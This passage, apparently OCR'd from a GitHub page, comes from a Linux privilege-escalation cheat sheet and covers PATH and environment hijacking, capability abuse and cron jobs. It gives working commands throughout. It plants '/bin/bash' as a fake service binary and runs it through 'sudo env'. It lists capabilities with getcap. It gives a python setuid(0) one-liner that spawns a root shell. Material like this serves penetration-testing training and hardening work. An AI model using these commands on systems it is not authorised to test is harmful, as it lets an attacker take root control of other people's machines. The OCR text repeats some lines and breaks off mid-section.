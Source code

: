     echo '/bin/bash' > /tmp/service
    chmod +x /tmp/service

    Explanation: By placing a malicious script in the PATH, attackers can hijack legitimate commands when the environment variable is not properly secured.

Exploiting SUID Environment Binaries:

    sudo env /usr/sbin/service: Executes the hijacked service script with elevated privileges.

    bash

        sudo env /usr/sbin/service

        Explanation: Environment variable manipulation is effective when applications rely on insecure paths or environment configurations.

Methodology and Tactics:
Environment variables can be a subtle yet powerful vector for privilege escalation, particularly in systems where proper sanitization of inputs and paths is not enforced.
14. Capabilities

Linux capabilities provide fine-grained control over the permissions that processes can have. Misconfigured capabilities can allow for privilege escalation.

    Listing Capabilities:
        getcap -r / 2>/dev/null: Recursively lists all capabilities set on the system.

        bash

    getcap -r / 2>/dev/null

    Explanation: Capabilities can grant specific privileges, such as binding to low-numbered ports or accessing raw sockets, to non-root users. Identifying these can reveal paths to privilege escalation.

Exploiting Capabilities:

    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")': Exploits a capability to escalate to a root shell.

    bash

        /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'

        Explanation: If a binary has the cap_setuid capability, it can be exploited to change its effective user ID to root, resulting in a root shell.

Methodology and Tactics:
Capabilities allow processes to perform specific privileged operations without needing full root access. Misconfigured capabilities can be exploited to gain root privileges without needing to exploit a traditional SUID binary.
15. Scheduled Tasks (Cron Jobs)

Cron jobs are scheduled tasks that run at specified intervals. Misconfigured cron jobs can be exploited to gain elevated privileges.

    Identifying Cron Jobs:
        cat /etc/crontab: Displays system-wide cron jobs.

        bash
